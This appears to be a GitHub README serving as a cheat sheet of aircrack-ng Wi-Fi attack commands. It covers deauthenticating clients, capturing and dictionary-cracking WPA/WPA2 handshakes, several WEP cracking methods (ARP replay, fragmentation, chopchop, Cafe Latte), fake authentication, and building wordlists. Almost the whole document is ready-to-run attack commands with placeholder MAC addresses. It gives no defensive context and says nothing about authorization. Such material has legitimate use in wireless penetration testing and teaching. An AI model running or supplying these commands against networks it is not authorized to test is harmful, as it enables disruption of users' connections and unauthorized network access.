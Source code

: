 # All usage of attacks by aircrack-ng

In this example
- `wlan0` is the name of your interface in manager mode
- `mon0` is the name of your interface in monitor mode
- `00:14:6C:7E:40:80` is the bssid of target network
- `00:09:5B:EB:C5:2B` is the bssid of your network
- `-c X` is the channel of target network
- `out.cap` is the filename to capture the WPA handshake
- `password.txt` is the filename to brute force
- `password.txt` is the file contains name of target network
- `crackwpa` is the database name for cracking password
- `sharedkey.xor` is the name of file containing the PRGA xor bits

## Scan network around

```
airmon-ng check kill
airmon-ng start wlan0
airodump-ng mon0
```

![image](https://user-images.githubusercontent.com/90561566/166110658-56663408-8ef9-4681-a5d1-4e7ec4bd3562.png)

## [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)

You can try it: https://github.com/lucthienphong1120/xDeauth

```
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
or
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 mon0
```

Ctrl+C to stop deauth

## WPA/WPA2 Handshake capture

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
ls
```

## [Cracking WPA/WPA2](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
(wait handshake)
aircrack-ng -w password.txt out*.cap 
```

## [ARP Request Replay Attack](https://www.aircrack-ng.org/doku.php?id=arp-request_reinjection)

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng -0 10 -a 00:14:6C:7E:40:80 mon0
aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

## Crack WEP by ARP request reinjection

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng -1 100 -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
aireplay-ng -3 0 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
(wait to capture about 70.000 packet)
aircrack-ng -a 1 out*.cap
```

## Speed up cracking use database

```
sudo apt install sqlite3
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
airolib-ng crackwpa --stats # to check information about your database before batch
airolib-ng crackwpa --clean all # to clean the database from old junk and integrity check
(you can skip 2 lines above)
airolib-ng crackwpa --batch
aircrack-ng -r crackwpa out*.cap
```

## Brute force tools

Aircrack often uses brute force with some other tools as follows:

- [Cupp](https://github.com/lucthienphong1120/cupp)
- /usr/share/wordlists/rockyou.txt.gz
- [Crunch](https://www.kali.org/tools/crunch)

```
crunch [min] [max] [charset] -t [pattern] -o [path file]
```

## [Interactive packet replay](https://www.aircrack-ng.org/doku.php?id=interactive_packet_replay)

Natural Packet Replay

```
aireplay-ng -2 -b 00:14:6C:7E:40:80 -d 00:09:5B:EB:C5:2B -t 1 mon0
```

Modified Packet Replay

```
aireplay-ng -2 -b 00:14:6C:7E:40:80 -t 1 -c 00:09:5B:EB:C5:2B -p 0841 mon0
```

Rebroadcast the packet and thereby generate new IVs

```
aireplay-ng -2 -p 0841 -c 00:09:5B:EB:C5:2B -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82  mon0
```

## [Fake authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication)

```
aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

Another variation

```
aireplay-ng -1 6000 -o 1 -q 10 -e teddy -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

## [Shared key fake authentication](https://www.aircrack-ng.org/doku.php?id=shared_key)

Start interface monitor mode on AP channel

```
airmon-ng start wlan0 9
airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w sharedkey mon0
(wait AUTH=SKA)
ls
```

Deauthenticate a connected client

```
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 mon0
```

`00:0F:B5:34:30:30` is the MAC address of the client you are deauthing

Perform Shared Key Fake Authentication

```
aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B -y sharedkey*.xor mon0
```

## [Fragmentation Attack](https://www.aircrack-ng.org/doku.php?id=fragmentation)

```
aireplay-ng -5 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

## [Crack WEP with KoreK chopchop](https://www.aircrack-ng.org/doku.php?id=korek_chopchop)

```
aireplay-ng -4 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

Chopchop Without Authentication

```
aireplay-ng -4 -b 00:14:6C:7E:40:80 mon0
```

## [Crack WEP with Cafe Latte](https://www.aircrack-ng.org/doku.php?id=cafe-latte)

```
aireplay-ng -6 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B -D mon0
```










